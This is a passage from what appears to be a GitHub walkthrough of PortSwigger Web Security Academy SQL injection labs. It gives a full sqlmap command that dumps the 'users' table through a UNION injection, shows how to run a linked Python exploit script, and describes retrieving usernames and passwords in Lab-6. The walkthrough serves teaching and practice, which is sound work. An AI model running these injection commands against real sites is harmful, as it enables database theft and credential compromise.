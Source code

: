 * <strong><font color="White">Execution:</font></strong> 
![sqlmap_3](https://user-images.githubusercontent.com/101610095/220316231-52c2d7aa-01ea-40b5-8bdd-122f2ae322f9.png)

**📍 Dumping data from table 'users' in database 'public':**
* <strong><font color="White">Command:</font></strong>  
```console
root@kali# sqlmap --proxy=http://127.0.0.1:8080 -u 'https://0aa8007d033d30a9c0f2d25500e700ca.web-security-academy.net/filter?category=*' -p category --technique=U --threads=5 --level=4 --risk=3 -D public -T users --dump --batch 
```

* <strong><font color="White">Options:</font></strong><br/> 
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; - -dump : Dump database table entries <br/>

* <strong><font color="White">Execution:</font></strong> 
![sqlmap_4](https://user-images.githubusercontent.com/101610095/220315870-2a6abc2b-9898-4237-a738-b08f71fd3616.png)

#### **<strong><font color="RosyBrown">Python3</font></strong>**
***

* You can find the source code <a href="https://github.com/YounesTasra-R4z3rSw0rd/Web-Security-Academy/blob/main/SQL%20Injection/Lab%235/Lab-5.py" target="_blank"><er>here</er></a>

* <a href="https://github.com/YounesTasra-R4z3rSw0rd/Web-Security-Academy/blob/main/SQL%20Injection/Lab%235/requirements.txt" target="_blank"><er>Requirements</er></a>:

```console
$ pip3 install -r requirements.txt
```
* Help Menu:

```console
$ python3 Lab-5.py --help
usage: Lab-5.py [-h] -u URL [-n]

Usage Example: python3 Lab-5.py --url https://0a2100.web-security-academy.net/ --no-proxy

options:
  -h, --help         show this help message and exit
  -u URL, --url URL  Enter the Lab URL
  -n, --no-proxy     Do not use proxy                               
```
![Lab-5](https://user-images.githubusercontent.com/101610095/220834052-c54932eb-4486-4110-a5cb-08a4f19d349e.gif)

# **<strong><font color="Brown">Lab-6</font></strong>**
***
## **<strong><font color="DarkCyan">About</font></strong>**

This <a href="https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data" target="_blank"><er>Lab</er></a> contains a <a href="https://portswigger.net/web-security/sql-injection" target="_blank"><er>SQL injection </er></a> vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.<br/>
The database contains a different table called ```users```, with columns called ```username``` and ```password```. <br/>
To solve the Lab, perform a <a href="https://portswigger.net/web-security/sql-injection/union-attacks" target="_blank"><er>SQL injection UNION attack</er></a> to retrieve all usernames and passwords.
